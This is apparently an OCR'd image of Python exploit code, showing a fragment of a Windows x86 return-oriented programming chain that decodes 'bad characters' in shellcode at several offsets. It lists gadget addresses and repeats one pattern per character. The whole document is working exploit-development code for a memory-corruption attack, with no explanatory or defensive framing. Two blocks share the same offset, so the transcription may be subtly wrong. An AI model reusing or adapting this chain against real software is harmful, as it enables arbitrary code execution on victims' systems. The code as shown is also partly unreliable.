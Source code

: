 ```python

# Decode bad char at index 64
ROPDecoder += pack("<L", 0x5050118e) # mov eax, esi ; pop esi ; ret  ;
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop esi
ROPDecoder += pack("<L", 0x5052db24) # pop ecx ; ret  ;
ROPDecoder += pack("<L", 0xffffffed) # offset to bad char at index 64
ROPDecoder += pack("<L", 0x5051579a) # add eax, ecx ; ret  ; Make eax point to the badchar to decode
ROPDecoder += pack("<L", 0x505263f9) # push eax ; pop esi ; pop ebx ; ret  ; get back the pointer to ESI
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop ebx
ROPDecoder += pack("<L", 0x5053a0f5) # pop eax ; ret  ;
ROPDecoder += pack("<L", 0x05050505) # decoding value
ROPDecoder += pack("<L", 0x5050626e) # add byte [esi+0x3B], ah ; ret  ; decode the bad character
    


# Decode bad char at index 40
ROPDecoder += pack("<L", 0x5050118e) # mov eax, esi ; pop esi ; ret  ;
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop esi
ROPDecoder += pack("<L", 0x5052db24) # pop ecx ; ret  ;
ROPDecoder += pack("<L", 0xffffffe8) # offset to bad char at index 40
ROPDecoder += pack("<L", 0x5051579a) # add eax, ecx ; ret  ; Make eax point to the badchar to decode
ROPDecoder += pack("<L", 0x505263f9) # push eax ; pop esi ; pop ebx ; ret  ; get back the pointer to ESI
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop ebx
ROPDecoder += pack("<L", 0x5053a0f5) # pop eax ; ret  ;
ROPDecoder += pack("<L", 0x05050505) # decoding value
ROPDecoder += pack("<L", 0x5050626e) # add byte [esi+0x3B], ah ; ret  ; decode the bad character
    


# Decode bad char at index 37
ROPDecoder += pack("<L", 0x5050118e) # mov eax, esi ; pop esi ; ret  ;
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop esi
ROPDecoder += pack("<L", 0x5052db24) # pop ecx ; ret  ;
ROPDecoder += pack("<L", 0xfffffffd) # offset to bad char at index 37
ROPDecoder += pack("<L", 0x5051579a) # add eax, ecx ; ret  ; Make eax point to the badchar to decode
ROPDecoder += pack("<L", 0x505263f9) # push eax ; pop esi ; pop ebx ; ret  ; get back the pointer to ESI
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop ebx
ROPDecoder += pack("<L", 0x5053a0f5) # pop eax ; ret  ;
ROPDecoder += pack("<L", 0x05050505) # decoding value
ROPDecoder += pack("<L", 0x5050626e) # add byte [esi+0x3B], ah ; ret  ; decode the bad character
    


# Decode bad char at index 18
ROPDecoder += pack("<L", 0x5050118e) # mov eax, esi ; pop esi ; ret  ;
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop esi
ROPDecoder += pack("<L", 0x5052db24) # pop ecx ; ret  ;
ROPDecoder += pack("<L", 0xffffffed) # offset to bad char at index 18
ROPDecoder += pack("<L", 0x5051579a) # add eax, ecx ; ret  ; Make eax point to the badchar to decode
ROPDecoder += pack("<L", 0x505263f9) # push eax ; pop esi ; pop ebx ; ret  ; get back the pointer to ESI
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop ebx
ROPDecoder += pack("<L", 0x5053a0f5) # pop eax ; ret  ;
ROPDecoder += pack("<L", 0x05050505) # decoding value
ROPDecoder += pack("<L", 0x5050626e) # add byte [esi+0x3B], ah ; ret  ; decode the bad character
    
```